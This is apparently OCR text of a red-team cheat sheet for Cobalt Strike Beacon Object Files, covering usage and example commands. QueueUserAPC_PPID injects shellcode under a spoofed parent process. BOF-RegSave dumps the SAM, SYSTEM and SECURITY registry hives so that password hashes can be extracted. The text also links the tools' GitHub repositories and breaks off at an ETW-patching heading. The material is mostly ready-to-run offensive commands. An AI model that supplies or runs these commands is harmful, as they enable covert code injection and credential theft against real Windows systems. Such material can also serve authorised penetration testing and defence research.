 The command format for QueueUserAPC_PPID is not provided in your message, but typically the usage would be along the lines of:



```
`queueuserapc_ppid PID path_to_shellcode path_to_executable`
```


- `PID`: The Process ID of the parent process under which the new process will be spawned.
- `path_to_shellcode`: The path to the binary shellcode file to inject.
- `path_to_executable`: The path to the executable that will be spawned as the child process.

##### Example:

To inject `shellcode.bin` into a process with the PID of 1234 and spawn `notepad.exe` as a child process, the command might look like this:



```
`queueuserapc_ppid 1234 /path/to/shellcode.bin C:\Windows\System32\notepad.exe`
```

https://github.com/m57/cobaltstrike_bofs#backupprivsam



#### BOF-RegSave

BOF-RegSave is a Beacon Object File for Cobalt Strike designed to escalate privileges and dump the SAM, SYSTEM, and SECURITY registry hives for offline analysis and password hash extraction.

To use BOF-RegSave, first load the custom CNA script which will register the `bof-regsave` command within the Cobalt Strike beacon console.

**Command to Dump Registry Hives:**

```
`beacon> bof-regsave c:\temp\`
```

##### Output Files:

The dumped registry hives will be saved in the specified directory with the following filenames:

- `samantha.txt` - Contains the SAM hive.
- `systemic.txt` - Contains the SYSTEM hive.
- `security.txt` - Contains the SECURITY hive.


To execute the BOF-RegSave and output files to `c:\temp\`, use the following command:

```
beacon> bof-regsave c:\temp\
```


https://github.com/EncodeGroup/BOF-RegSave


### ETW Patching BOF
